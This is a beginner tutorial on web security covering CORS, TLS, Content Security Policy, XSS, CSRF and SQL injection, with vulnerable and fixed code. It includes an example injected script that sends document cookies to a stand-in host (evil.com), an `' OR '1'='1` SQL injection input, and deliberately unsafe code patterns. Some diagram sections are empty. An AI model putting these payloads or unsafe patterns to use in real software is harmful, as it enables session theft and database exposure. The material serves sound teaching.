


# Web Security Basics — Beginner Guide

Now that you understand how users prove who they are (Authentication), let's cover how browsers and servers protect data from attackers. This guide covers four foundational topics: **CORS**, **HTTPS/TLS**, **Content Security Policy (CSP)**, and the most common attack types from the **OWASP Top 10** (XSS, CSRF, SQL Injection).

---

## 1. CORS (Cross-Origin Resource Sharing)

### The problem it solves

By default, browsers enforce the **Same-Origin Policy**: a web page loaded from `https://siteA.com` cannot make requests to `https://siteB.com` and read the response, unless `siteB.com` explicitly allows it. Two URLs are the "same origin" only if they match on **protocol**, **domain**, and **port**.

```
https://example.com:443/page1   →  same origin as
https://example.com:443/page2   →  YES (matches protocol, domain, port)

https://example.com   vs   http://example.com   → different (protocol differs)
https://example.com   vs   https://api.example.com → different (domain differs)
https://example.com:443 vs https://example.com:8080 → different (port differs)
```

This exists to stop a malicious page you visit from silently reading your bank's data using cookies your browser already has stored for that bank.

### Why it's enforced

Imagine you're logged into `mybank.com` in one tab, and in another tab you visit `evil-site.com`. Without the Same-Origin Policy, JavaScript on `evil-site.com` could quietly send a request to `mybank.com/api/transfer` and — since your browser automatically attaches your bank's cookies — read your balance or even trigger actions on your behalf. CORS is the *mechanism* that lets a server intentionally **relax** this restriction for specific trusted origins.

### How it works



If the server's response is missing the right `Access-Control-Allow-Origin` header, the browser **blocks the JavaScript code from reading the response** — the request may still technically happen on the server, but your frontend code never sees the result.

### Blocked vs allowed example

```javascript
// Frontend running on https://myapp.com making a request to https://api.example.com

fetch('https://api.example.com/data')
  .then(res => res.json())
  .then(data => console.log(data))
  .catch(err => console.error('Blocked by CORS!', err));
```

Server response that **allows** this:
```
Access-Control-Allow-Origin: https://myapp.com
```

Server response that **blocks** this (or omits the header entirely):
```
// No Access-Control-Allow-Origin header at all
// Browser console shows:
// "Access to fetch at 'https://api.example.com/data' from origin
//  'https://myapp.com' has been blocked by CORS policy"
```

**Why this matters:** CORS is a *browser-enforced* rule — it protects users, not servers. A non-browser client (like `curl` or Postman) completely ignores CORS, because CORS is implemented in the browser, not the server or the network.

---

## 2. HTTPS / TLS Basics

**HTTP** sends data in plain text — anyone on the same network (like public WiFi) can read it. **HTTPS** wraps HTTP inside **TLS (Transport Layer Security)**, which encrypts the data in transit.

### What TLS gives you

1. **Encryption** — data can't be read by eavesdroppers between browser and server.
2. **Integrity** — data can't be silently modified in transit without detection.
3. **Authentication** — a certificate proves the server is who it claims to be (issued by a trusted Certificate Authority).

### Simplified TLS handshake



**Why this matters:** Without HTTPS, login forms, cookies, and any data you send could be intercepted and read (or altered) by anyone between you and the server — for example, on public WiFi. Modern browsers mark plain HTTP sites as "Not Secure," and many features (like camera/microphone access) simply refuse to work without HTTPS.

---

## 3. Content Security Policy (CSP)

CSP is an HTTP header that tells the browser: "only load resources (scripts, styles, images, etc.) from these approved sources." It's a powerful defense against XSS because even if an attacker manages to inject a `<script>` tag, the browser will refuse to execute it if it violates the policy.

### Example policy

```
Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted-cdn.com; style-src 'self' 'unsafe-inline'; img-src *
```

Breaking this down:

| Directive | Meaning |
|-----------|---------|
| `default-src 'self'` | By default, only load resources from the same origin |
| `script-src 'self' https://trusted-cdn.com` | Scripts can only come from our own site or this specific CDN |
| `style-src 'self' 'unsafe-inline'` | Styles from our own site, plus inline `<style>` tags are allowed |
| `img-src *` | Images can be loaded from anywhere |

### Setting it in Express

```javascript
app.use((req, res, next) => {
  res.setHeader(
    'Content-Security-Policy',
    "default-src 'self'; script-src 'self' https://trusted-cdn.com"
  );
  next();
});
```

With this policy in place, if an attacker injects `<script>fetch('https://evil.com?cookie=' + document.cookie)</script>` into your page, the browser will **refuse to run it** and log a CSP violation in the console — because `evil.com` (and even an inline `<script>` tag by default) isn't in the allowed list.

**Why this matters:** CSP is a "defense in depth" layer — even if you miss sanitizing some input somewhere, CSP can stop the resulting injected script from actually executing or exfiltrating data.

---

## 4. OWASP Top Risks

OWASP (Open Web Application Security Project) publishes a well-known list of the most critical web app security risks. Here are three you'll encounter constantly as a frontend developer.

### XSS (Cross-Site Scripting)

XSS happens when an attacker manages to inject their own JavaScript into a page that other users view — for example, through a comment field that isn't sanitized.

**Vulnerable example:**

```javascript
// React - DANGEROUS
function Comment({ text }) {
  return <div dangerouslySetInnerHTML={{ __html: text }} />;
}

// If `text` = ""
// this runs the attacker's JavaScript in every visitor's browser!
```

**Fixed example:**

```javascript
// React - SAFE (React escapes text content by default)
function Comment({ text }) {
  return <div>{text}</div>;
  // React automatically escapes `text`, so it's rendered as literal text,
  // not executed as HTML/JS
}

// If you truly need to render HTML, sanitize it first:
import DOMPurify from 'dompurify';

function Comment({ html }) {
  const clean = DOMPurify.sanitize(html);
  return <div dangerouslySetInnerHTML={{ __html: clean }} />;
}
```

### CSRF (Cross-Site Request Forgery)

CSRF tricks a logged-in user's browser into submitting an unwanted request to a site they're authenticated on. For example, an attacker's page auto-submits a hidden form to `yourbank.com/transfer` — and since your browser sends your bank cookies automatically, the request looks legitimate.

**Mitigation:** CSRF tokens (a random value tied to your session that must be included in state-changing requests) and the `SameSite` cookie attribute, which tells the browser not to send cookies on cross-site requests.

```javascript
// Server sets SameSite cookie attribute to prevent CSRF
res.cookie('sessionId', sessionId, { sameSite: 'strict', httpOnly: true, secure: true });
```

### SQL Injection

This happens on the **backend**, when user input is concatenated directly into a SQL query instead of being properly parameterized.

**Vulnerable:**
```javascript
// NEVER DO THIS
const query = `SELECT * FROM users WHERE username = '${username}'`;
// If username = "' OR '1'='1", the query becomes:
// SELECT * FROM users WHERE username = '' OR '1'='1'  → returns ALL users!
```

**Fixed:**
```javascript
// Use parameterized queries — the database library handles escaping
db.query('SELECT * FROM users WHERE username = ?', [username]);
```

**Why this matters:** Even though SQL injection is a backend concern, frontend developers need to understand it because form inputs are the entry point attackers use — never assume "the backend will handle it," always design with the assumption that any input could be malicious.

---

## Where this fits

Web Security Basics sits after Authentication Strategies and before Web Components / Type Checkers in the frontend roadmap — now that you know how users are identified and how requests are protected, you're ready to explore how to build reusable, encapsulated UI (Web Components).
